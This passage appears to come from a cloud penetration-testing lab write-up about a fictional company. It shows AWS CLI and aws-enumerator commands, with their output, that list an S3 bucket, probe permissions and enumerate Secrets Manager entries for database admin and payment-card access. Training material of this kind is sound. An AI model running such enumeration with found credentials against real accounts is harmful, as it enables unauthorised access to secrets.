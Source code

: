 We can check the bucket mentioned in the confing we found, but it contains a lot of transaction files and nothing interesting
```
└─$ aws s3 ls hl-data-download
2023-08-06 03:56:58       5200 LOG-1-TRANSACT.csv
2023-08-06 03:57:05       5200 LOG-10-TRANSACT.csv
2023-08-06 03:58:04       5200 LOG-100-TRANSACT.csv
2023-08-06 03:57:05       5200 LOG-11-TRANSACT.csv
2023-08-06 03:57:06       5200 LOG-12-TRANSACT.csv
<SNIP>
```

Now, we can use [aws-enumerator](https://github.com/shabarkin/aws-enumerator). Authenticate with `aws-enumerator cred`. Then start enumeration
```
└─$ aws-enumerator enum -services all
Message:  Successful APPMESH: 0 / 1
Message:  Successful AMPLIFY: 0 / 1
Message:  Successful APPSYNC: 0 / 1
<SNIP>
Message:  Successful SECRETSMANAGER: 1 / 2
<SNIP>
Message:  Successful STS: 2 / 2
<SNIP>
```

It seems like we have [ListSecrets](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_ListSecrets.html) permission
```
└─$ aws-enumerator dump -services secretsmanager
<SNIP>
ListSecrets
```

We can list the secrets
```
└─$ aws secretsmanager list-secrets --query 'SecretList[*].[Name, Description, ARN]' --output json
[
    [
        "employee-database-admin",
        "Admin access to MySQL employee database",
        "arn:aws:secretsmanager:us-east-1:427648302155:secret:employee-database-admin-Bs8G8Z"
    ],
    [
        "employee-database",
        "Access to MySQL employee database",
        "arn:aws:secretsmanager:us-east-1:427648302155:secret:employee-database-rpkQvl"
    ],
    [
        "ext/cost-optimization",
        "Allow external partner to access cost optimization user and Huge Logistics resources",
        "arn:aws:secretsmanager:us-east-1:427648302155:secret:ext/cost-optimization-p6WMM4"
    ],
    [
        "billing/hl-default-payment",
        "Access to the default payment card for Huge Logistics",
        "arn:aws:secretsmanager:us-east-1:427648302155:secret:billing/hl-default-payment-xGmMhK"
    ]
]

```
